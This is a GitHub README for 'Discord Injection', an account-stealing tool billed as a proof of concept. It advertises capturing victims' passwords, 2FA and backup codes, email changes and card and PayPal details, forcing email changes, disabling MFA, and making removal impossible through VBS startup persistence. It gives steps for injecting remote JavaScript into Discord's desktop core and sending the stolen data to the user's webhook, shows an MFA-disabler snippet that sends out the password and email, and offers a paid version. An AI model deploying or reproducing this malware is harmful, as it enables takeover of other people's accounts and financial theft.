




[shield-github-issues]: https://img.shields.io/github/issues/k4itrun/discord-injection?style=for-the-badge&color=c267ff
[shield-github-license]: https://img.shields.io/github/license/k4itrun/discord-injection?style=for-the-badge&color=c267ff
[shield-github-stars]: https://img.shields.io/github/stars/k4itrun/discord-injection?style=for-the-badge&color=c267ff
[shield-github-forks]: https://img.shields.io/github/forks/k4itrun/discord-injection?style=for-the-badge&color=c267ff

[github-issues-link]: https://github.com/k4itrun/discord-injection/issues
[github-license-link]: https://github.com/k4itrun/discord-injection/blob/main/license
[github-stars-link]: https://github.com/k4itrun/discord-injection/stargazers
[github-forks-link]: https://github.com/k4itrun/discord-injection/network/members

[github-link]: https://github.com/k4itrun/discord-injection

<div align="center">

[![][shield-github-issues]][github-issues-link]
[![][shield-github-license]][github-license-link]
[![][shield-github-stars]][github-stars-link]
[![][shield-github-forks]][github-forks-link]<br/>

# [Discord Injection][github-link]

Proof of Concept (PoC) for Intercepting HTTP Requests in Discord

</div>

## Overview

**Discord Injection** is a proof-of-concept tool designed to demonstrate the interception of HTTP requests within the Discord application. This PoC highlights potential vulnerabilities by capturing various critical actions and interactions within Discord.

## Key Features

- **Persistence and Startup**:
  - Once the victim is injected, and everything is perfect, they simply will not be able to remove the injection.
  - Persistence works in such a way that once the user starts their Discord application, an executable is simply created that will check if it contains an injection. If so, it will not be modified, but if not, it will be injected again [More information here](#startup)

- **Forced mail change & edit user**:
  - If this setting is enabled in the automatic change mail injection, then the victim will see a fake security alert & Also if the automatic user modification configuration is active, user data will be modified

- **Login & Authentication**:
  - Intercept login, registration, and two-factor authentication (2FA) requests.
  
- **Account Management**:
  - Capture requests related to email and password changes.
  
- **Security codes**:
  - Obtains all the victim's security codes at capture time.

- **Payment Information**:
  - Monitor credit card and PayPal addition requests.
  
- **Security Measures**:
  - Automatic logout after the initial injection to prevent unauthorized access.
  - QR Code login prevention to enhance security.
  - Block requests that reveal device information.

## Installation Guide

1. **Close Discord**: Ensure that Discord is completely closed before proceeding.

2. **Copy the Injection Code**:
   - Download the [injection code](https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js) and insert it into your Discord desktop core. Navigate to:
     ```bash
     %APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js
     ```

3. **Configure Setup**:
   - Replace `%WEBHOOK_URL%` in the injected code with your Discord webhook URL. This webhook will receive the intercepted information.
   - Replace `%API_URL%` with our api you can get a unique url where you will get detailed information of the victims.
   - Replaces data like `%AUTO_USER_PROFILE_EDIT%`, `%AUTO_EMAIL_UPDATE%` which are a separate configuration in case you want to have an improvement in the attack.

   - *Important this do not change it*
        ```json
        injection_url: "https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js",
        injector_url: "https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs",
        ```

4. **Restart Discord**: Launch Discord again to apply the changes.

## Usage

- **Node.js Injector**:
  - For a more feature-rich injector based on Node.js, visit [DiscordTokenGrabber](https://github.com/k4itrun/DiscordTokenGrabber). It's a free tool with extensive capabilities.


## Startup

- **Persistence Vbs Malware**:
  - Once the victim is injected, several instances will be created on the PC in parallel, simply once the victim is trapped they will not be able to leave.
  
  An autostart task is created on multiple routes as in
    ```Bash
    %APPDATA%\Microsoft\Protect
    ```
    ```Bash
    %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
    ```
    - Firstly, the [Injector Malware](https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs) will be stored here and will be executed whenever the PC starts.

## Preview

### Block devices & Code QR


### Forced mail change

### Edit user

### Account Information

### System Information



### Auto Mfa Disabler
```js
if(CONFIG.auto_mfa_disabler === 'true') {
    await delay(5000);

    const autoMfadisablerToken = await autoMfadisabler(response, token, 'backup');

    content = {
        content: `**${user.username}** mfa was deactivated automatically!`,
        embeds: [{
            fields: [
                { name: "Password", value: `\`${password}\``, inline: true },
                { name: "Email", value: `\`${email}\``, inline: true },
            ],
        }],
    };

    notify(content, autoMfadisablerToken, user);    
};
```
*If you are interested in an improved version with more features such as auto mfa deactivator and premium options you can buy it*

## Note

Use this PoC responsibly and only on systems and applications where you have explicit permission to test. Unauthorized use may violate terms of service and legal agreements.

<br/>

<div align="center">
<p>
	Copyright &copy; 2023-2024 | Made by <a href="https://github.com/k4itrun" target="_blank">@k4itrun</a>
</p>

[![][shield-github-license]][github-license-link]
</div>